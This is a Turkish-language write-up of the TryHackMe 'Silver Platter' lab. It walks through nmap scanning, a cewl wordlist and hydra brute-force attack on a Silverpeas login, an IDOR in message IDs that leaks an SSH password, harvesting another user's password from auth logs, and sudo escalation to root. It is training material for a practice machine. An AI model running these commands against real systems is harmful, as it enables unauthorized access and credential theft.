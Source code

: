 ```yaml
---
title: 'TryHackMe | Silver Platter WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [brute force, log, idor, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_silver_platter/
image:
  path: logo.webp
---
```


## Özet

Silver Platter, web uygulamasındaki bilgilerden yararlanarak kaba kuvvet saldırısı yaptığımız kolay seviye bir makinedir. Uygulamaya giriş yaptıktan sonra mesajların bulunduğu alanda bir `IDOR` zafiyeti tespit edecek ve bu zafiyeti sömürerek SSH kullanıcı bilgilerini öğreneceğiz. Daha sonra log dosyalarından birinde bulduğumuz parola ile bir başka kullanıcıya geçiş yapacağız. Bulunduğumuz kullanıcının sudo yetkilerini kontrol ettiğimizde ise root haklarıyla istediğimiz komutları çalıştırabileceğimizi öğreneceğiz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sSVC -T4 10.10.53.94
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
...
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Tyler Ramsbey tarafından yapılmış bir web uygulaması ile karşı karşıyayız. Uygulamanın amacını tam olarak anlamış değilim. Bazı yerlerde CTF'ler düzenledikleri, bazı yerlerde ise kurumların güvenliğini sağladıkları yazıyor. Sanırım bu iki işi de görüyorlar. İletişim sayfasına baktığımızda iletişim için bir kullanıcı adı verdiğini ve silverpeas üzerinden onlarla iletişim kurabileceğimiz belirtilmiş.

![](2.webp){: width="900" height="500" }

### 8080 numaralı portun incelenmesi

![](3.webp){: width="1200" height="600" }

Bahsettiği `silverpeas` uygulaması `8080` numaralı port üzerinde bulunuyor. İletişim kurmak için bu adrese sadece kullanıcı adı ile yönlendirdiğini düşünürsek, parolasının aynı kullanıcı adına sahip olduğunu veya varsayılan bilgileri içerdiğini düşünebiliriz ama değil. Cewl aracı ile 80 numaralı port üzerindeki web sitesindeki bilgilerden bir parola listesi oluşturalım. Daha sonra ise hydra aracından yararlanarak bir kaba kuvvet saldırısı başlatalım.

```console
$ cewl http://10.10.53.94 > passwords.txt
$ hydra -l scr1ptkiddy -P passwords.txt 10.10.53.94 -s 8080 http-post-form "/silverpeas/AuthenticationServlet?DomainId=0:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-31 09:49:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 345 login tries (l:1/p:345), ~22 tries per task
[DATA] attacking http-post-form://10.10.53.94:8080/silverpeas/AuthenticationServlet?DomainId=0:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect
[8080][http-post-form] host: 10.10.53.94   login: scr1ptkiddy   password: ***
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-31 09:49:19
```

Elde ettiğimiz kullanıcı bilgileri ile sisteme giriş yapalım.

![](4.webp){: width="1200" height="600" }

## Sömürü aşaması

![](5.webp){: width="1200" height="600" }

Sistemde `manager`, `scr1ptkiddy` ve `administrator` olmak üzere üç adet kullanıcı bulunuyor. Bu kullanıcılara mesaj gönderebiliyoruz. Bulunduğumuz kullanıcıya ise `manager` kullanıcısından "game night" başlığı altında bir mesaj gönderilmiş.

![](6.webp){: width="1200" height="600" }

scr1ptkiddy kullanıcısına gönderilen mesajda bir saat içinde bir VR oyununa başlayacaklarını ve katılmak isteyip istemediğini sorduğunu görüyoruz. Bu arada url yapısı dikkatimizi çekiyor. 

![](7.webp){: width="900" height="500" }

ID değerini her değiştirişimizde başka bir kullanıcının mesajı ile karşılaşıyoruz. 6 numaralı mesajı kontrol etmek istediğimizde ise `tim` kullanıcısının parolasını elde ediyoruz.

![](8.webp){: width="900" height="500" }

Kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra ilk bayrağı kullanıcının kendi dizininden alıyoruz.

## Yetki yükseltme

### tyler

`id` komutunu kullandıktan sonra `adm` grubunda olduğumuzu öğreniyoruz.

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

`adm` grubunda bulunan dosyaları listelediğimizde geneli log dosyalarından oluşan bir takım dosyalar ile karşılaşıyoruz.

```console
tim@silver-platter:~$ find / -group adm 2>/dev/null
/var/log/kern.log                                                                                                                                                                             
/var/log/syslog.3.gz                                                                                                                                                                          
/var/log/kern.log.2.gz                                                                                                                                                                        
/var/log/syslog.2.gz                                                                                                                                                                          
/var/log/auth.log.1                                                                                                                                                                           
/var/log/kern.log.1                                                                                                                                                                           
/var/log/dmesg.4.gz                                                                                                                                                                           
...
```

Haliyle bu log dosyalarından `tyler` kullanıcısının parolasını bulabileceğimi düşündüm ve grep komutu ile /var/log dizinindeki dosyaları kontrol ettim.

```console
tim@silver-platter:~$ grep "password" -iR /var/log 2>/dev/null | grep "tyler"
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=*** -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```

`auth.log` dosyası içerisinded `tyler` kullanıcısının parolasını buluyor ve kendisine geçiş yapıyoruz.

### root

`sudo` yetkilerimizi görüntülediğimizde herhangi bir kullanıcı adına istediğimiz tüm komutları çalıştırabileceğimizi öğreniyoruz.

```console
tyler@silver-platter:/home/tim$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) AL
```

`sudo su` komutunu kullanarak root kullanıcısına geçiş yapıyor ve son bayrağı kendi dizininden alıyoruz.

```console
tyler@silver-platter:/home/tim$ sudo su
root@silver-platter:/home/tim# cd /root
root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh
root@silver-platter:~# cat root.txt 
THM{***}
```
